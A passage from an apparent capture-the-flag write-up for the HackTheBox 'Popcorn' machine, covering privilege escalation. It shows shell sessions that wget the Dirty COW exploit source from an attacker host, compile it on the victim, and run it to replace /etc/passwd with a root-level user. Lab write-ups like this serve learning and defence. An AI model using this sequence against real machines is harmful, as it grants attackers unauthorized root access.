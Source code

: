 
<br />
Try to run the exploit and notice the error.

{% raw %}
```bash
www-data@popcorn:/dev/shm$ ./dirty
./dirty
bash: ./dirty: cannot execute binary file
```
{% endraw %}

<br />
Transfer the dirty.c source file to the victim machine.

{% raw %}
```bash
www-data@popcorn:/dev/shm$ wget http://10.10.14.29:8000/dirty.c -O dirty.c
wget http://10.10.14.29:8000/dirty.c -O dirty.c
--2025-01-18 02:13:55--  http://10.10.14.29:8000/dirty.c
Connecting to 10.10.14.29:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5006 (4.9K) [text/x-csrc]
Saving to: `dirty.c'

100%[======================================>] 5,006       --.-K/s   in 0s      

2025-01-18 02:13:55 (396 MB/s) - `dirty.c' saved [5006/5006]
```
{% endraw %}

<br />
Compile the source code on the victim machine.

{% raw %}
```bash
www-data@popcorn:/dev/shm$ gcc -pthread dirty.c -o dirty -lcrypt
gcc -pthread dirty.c -o dirty -lcrypt
```
{% endraw %}

<br />
Run the dirty executable.

{% raw %}
```bash
www-data@popcorn:/dev/shm$ gcc -pthread dirty.c -o dirty -lcrypt
gcc -pthread dirty.c -o dirty -lcrypt
www-data@popcorn:/dev/shm$ ./dirty
./dirty
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: firefart

Complete line:
firefart:fik57D3GJz/tk:0:0:pwned:/root:/bin/bash

mmap: b789e000
```
{% endraw %}
